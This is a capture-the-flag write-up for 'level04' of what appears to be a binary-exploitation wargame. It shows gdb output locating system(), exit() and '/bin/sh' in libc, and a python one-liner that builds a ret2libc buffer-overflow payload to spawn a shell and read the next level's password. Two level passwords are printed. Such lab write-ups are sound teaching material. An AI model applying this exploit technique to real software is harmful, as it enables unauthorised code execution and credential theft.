 # Level 04
*password : kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf*

## Analyze

```
scp -P 4242 level04@192.168.56.109:level04 binary/
```

## Buffer overflow : gets exploit

**objective** : overflow buffer to execute `/bin/sh`

```
(gdb) start
Temporary breakpoint 1 at 0x80486cd
Starting program: /home/users/level04/level04 

Temporary breakpoint 1, 0x080486cd in main ()
(gdb) info funct exit
...
0xf7ee45c4  _exit
...
(gdb) info funct system
...
0xf7e6aed0  system
...
(gdb) info proc map
...
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
...
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

`system()` address : 0xf7e6aed0\
`exit()` address : 0xf7ee45c4\
`/bin/sh` address : 0xf7f897ec\

- eip offset found : 156

```
$ python -c 'print "\x42" * 156 + "\xd0\xae\xe6\xf7" + "\xc4\x45\xee\xf7" + "\xec\x97\xf8\xf7"' > /tmp/level04
$ cat /tmp/level04 - | ./level04
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
